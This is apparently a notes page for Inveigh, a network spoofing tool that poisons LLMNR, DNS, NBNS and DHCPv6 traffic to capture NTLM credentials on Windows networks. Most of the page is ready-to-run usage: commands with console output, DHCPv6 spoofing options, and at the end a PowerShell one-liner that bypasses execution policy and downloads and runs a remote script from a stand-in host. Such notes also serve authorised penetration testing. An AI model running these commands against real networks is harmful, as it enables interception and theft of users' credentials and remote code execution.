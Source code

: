 > [!info] About
An LLMNR/DNS/NBNS/etc poofer with both IPv4 and IPv6 support written in C#. Similar to Responder.

# Examples
### Default (Autodetect local IPs)
This will run with the default settings.
```powershell
.\Inveigh.exe
[*] Inveigh 2.0 [Started 2021-06-15T00:08:37 | PID 12588]
[+] Packet Sniffer Addresses [IP 10.10.2.111 | IPv6 fe80::3d3b:b73c:c43e:ed4e%2]
[+] Listener Addresses [IP 0.0.0.0 | IPv6 ::]
[+] Spoofer Reply Addresses [IP 10.10.2.111 | IPv6 fe80::3d3b:b73c:c43e:ed4e%2]
[+] Spoofer Options [Repeat Enabled | Local Attacks Disabled]
[-] DHCPv6
[+] DNS Packet Sniffer [Type A]
[-] ICMPv6
[+] LLMNR Packet Sniffer [Type A]
[-] MDNS
[-] NBNS
[+] HTTP Listener [HTTPAuth NTLM | WPADAuth NTLM | Port 80]
[-] HTTPS
[+] WebDAV [WebDAVAuth NTLM]
[-] Proxy
[+] LDAP Listener [Port 389]
[+] SMB Packet Sniffer [Port 445]
[+] File Output [C:\Users\dev\source\repos\Inveigh\Inveigh\bin\Debug\net35]
[+] Previous Session Files [Imported]
[*] Press ESC to enter/exit interactive console
```

### Listener Only Mode
>[!tip]
>With the packet sniffer disabled, Inveigh will attempt to start SMB listeners for IPv4 and IPv6. 
>On most windows systems, port 445 will already be in use. Either ignore error or add `-smb n`


```powershell
.\Inveigh.exe -sniffer n

.\Inveigh.exe -sniffer n -smb n
```

### DHCPv6
Start DHCPv6 spoofer and IPv6 DNS spoofer. Note, DNS is on by default.
````powershell
.\Inveigh.exe -dhcpv6 y
````

#### Start DHCPv6 spoofer and spoof DNS requests for internal domain only.
```powershell
.\Inveigh.exe -dhcpv6 y -replytodomains lab.inveigh.org
```

# Repository
https://github.com/Kevin-Robertson/Inveigh

# Invoke-Inveigh and log output to file
```
powershell.exe -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://uri.whatever/Inveigh.ps1');Invoke-Inveigh -ConsoleOutput Y –NBNS Y –mDNS Y –Proxy Y -LogOutput Y -FileOutput Y"
```
